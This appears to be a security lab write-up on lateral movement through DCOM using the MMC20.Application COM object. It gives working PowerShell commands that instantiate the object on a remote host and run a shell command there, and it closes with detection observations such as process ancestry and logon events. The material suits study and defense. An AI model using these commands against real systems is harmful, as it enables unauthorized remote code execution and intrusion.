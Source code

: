 ```yaml
---
description: Lateral Movement via Distributed Component Object Model
---
```


# T1175: Lateral Movement via DCOM

> The Microsoft Component Object Model \(COM\) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE \(compound documents\), ActiveX \(Internet-enabled components\), as well as others.
>
> [https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model](https://docs.microsoft.com/en-us/windows/desktop/com/the-component-object-model)

This lab explores a DCOM lateral movement technique using MMC20.Application COM as originally researched by @enigma0x3 in his blog post [Lateral Movement using the mmc20.application Com Object](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

## Execution

MMC20.Application COM class is stored in the registry as shown below:

![](../../.gitbook/assets/dcom-registry.png)

Same can be achieved with powershell:

```csharp
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

![](../../.gitbook/assets/dcom-registry2.png)

Establishing a connection to the victim host:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Executing command on the victim system via DCOM object:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$a.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c hostname > c:\fromdcom.txt","7")
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the command execution and the result of it - remote machine's `hostname` command output is written to `c:\fromdcom.txt`:

![](../../.gitbook/assets/dcom-rce.png)

## Observations

Once the connection from an attacker to victim is established using the below powershell:

```csharp
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.0.0.2"))
```

This is what happens on the victim system - `svchost` spawns `mmc.exe` which opens a listening port via RPC binding:

![](../../.gitbook/assets/dcom-mmc-bind.png)

![](../../.gitbook/assets/dcom-listening.png)

![](../../.gitbook/assets/dcom-ancestry+connections.png)

A network connection is logged from 10.0.0.7 \(attacker\) to 10.0.0.2 \(victim\) via `offense\administrator` \(can be also seen from the above screenshot\):

![](../../.gitbook/assets/dcom-logon-event.png)

![](../../.gitbook/assets/dcom-connection2.png)

## References

{% embed url="https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.type.gettypefromclsid?view=netframework-4.7.2\#System\_Type\_GetTypeFromCLSID\_System\_Guid\_System\_String\_" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/com/com-technical-overview" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1175" %}


